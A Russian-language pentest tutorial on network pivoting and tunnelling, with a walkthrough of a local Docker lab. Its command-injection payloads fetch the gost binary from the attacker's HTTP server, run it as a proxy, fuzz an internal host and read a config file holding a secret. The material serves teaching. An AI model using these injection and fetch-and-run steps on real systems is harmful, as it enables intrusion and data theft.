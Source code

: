 ### Основные понятия

**Pivoting** (англ. Pivot – “точка опоры”) – техника, которая позволяет хакерам получить доступ к другой части сети,
используя
компьютер, который уже подвергся атаке. Эта техника может быть использована для обхода мер безопасности, установленных
на периметре сети, и получения доступа к данным и системам, которые находятся за этим периметром.

**Прокси-сервер** (англ. “Proxy”) — промежуточный сервер в компьютерных сетях, выполняющий роль посредника между
пользователем и целевым сервером, позволяющий клиентам как выполнять косвенные запросы к другим сетевым службам, так и
получать ответы.

**Туннелирование в компьютерных сетях** (англ. “Tunneling”) — процесс, в ходе которого создается логическое соединение
между двумя конечными точками посредством инкапсуляции различных протоколов.

**Переадресация портов** (англ. “Port Forwarding”) — в компьютерных сетях или сопоставление портов — приложение
преобразования сетевых адресов, которое перенаправляет запрос связи с одной комбинации адреса и номера порта на другую,
в то время как пакеты проходят через сетевой шлюз, такой как маршрутизатор или брандмауэр.

**Port2Port** (также известный как P2P) — это техника перенаправления сетевого трафика между двумя различными портами на
одном и том же компьютере или между двумя разными компьютерами.

**Port2Hostnet** — это техника перенаправления сетевого трафика через порт в сеть удаленного узла.

### Разбор базового примера

Вы получили доступ к системе ОС Linux, и ваша задача — изучить отдельные сервисы внутренней сети или получить к ней
доступ со своей рабочей машины.

Конкретнее:

Вы получили доступ на машину: jump
Ваша задача — получить удобный доступ к сервису: target:80

#### Ход действий

1. Запускаем лабораторный стенд:

> $ docker-compose up -d

2. Проверяем доступность сервиса pinger через web-интерфейс:


3. Проверяем возможность инъекции команд:

> 1.1.1.1; ls

4. Соберем информацию о сервисе:

> hostname -I

5. IP-адрес принадлежит локальной сети, попробуем найти в ней другие хосты, скрытые в локальной сети:

> curl 172.22.0.2

6. Наша задача – найти файл на web-сервере, который скрыт в локальной сети, используем для этого утилиту ffuf, но для
   этого необходимо стабильное соединение с целевым сервером через промежуточный хост.

Используем прокси из проекта Go simple tunnel: https://github.com/ginuerzh/gost

7. Скачиваем бинарный файл из релизов, выбираем сборку для Linux с amd64, например:

https://github.com/ginuerzh/gost/releases/download/v2.11.5/gost-linux-amd64-2.11.5.gz

8. Подготовим веб-сервер для передачи этого файла на атакуемую машину:

        $ cd /tmp
        
        $ mkdir http; cd http
        
        $ wget https://github.com/ginuerzh/gost/releases/download/v2.11.5/gost-linux-amd64-2.11.5.gz
        
        $ gunzip gost-linux-amd64-2.11.5.gz # распаковка архива с бинарником
        
        $ mv gost-linux-amd64-2.11.5 gost
        
        $ python3 -m http.server 3000

9. Определяем наш IP-адрес:

> $ ip a

10. Далее в браузере выполняем скачивание файла через интерфейс pinger:

> 1.1.1.1 | curl 172.20.10.7:3000/gost –output gost # IP-адрес нужно заменить на адрес вашего сетевого интерфейса

> chmod +x gost # выдача прав на исполнение

> ls -la

11. Запускаем gost в режиме прокси:

> 1.1.1.1 | ./gost -L=:1338

12. Настроим утилиту ffuf для использования прокси и используем её для обнаружения файлов на удаленном веб-сервере с IP
    172.22.0.2 в локальной сети:

> $ http_proxy=127.0.0.1:1338 ffuf -w ~/Repositories/YAWR/Web/files_and_directories/fuzz.txt -u http://172.22.0.2/FUZZ
> -fc
> 403

13. Получим файл config.inc~, прочтем его с помощью curl и получим секрет:

> 1.1.1.1 | curl 172.22.0.2/config.inc~

### Общие принципы

Существует множество подходов к пробросу трафика, зависящих от ОС, используемых утилит и различных ограничений. Их можно
разделить по критериям:

Используемых инструментов:

- Подходы, использующие внутренние инструменты ОС: ssh, nc, bash и пр.
- Подходы, использующие внешние утилиты: socat, meterpreter, gost и пр.


Методов сокрытия трафика и обхода ограничений:

- Стандартные протоколы, не использующие скрытие трафика: TCP, UDP, HTTPS, SSH, VPN
- Нестандартные протоколы, позволяющие обходить системы обнаружения, ограничения и скрывать наличие туннеля: ICMP, DNS,
HTTPS (в виде легитимных запросов к приложению)


Проблемы, присущие методам проброса трафика

- Нестабильность соединений
- Исключение возможности использовать протоколы ниже прикладного или транспортного уровня
- Детектирование зловредного трафика в сети
- Ограничение соединений между узлами, логическими сегментами сети, используемыми портами


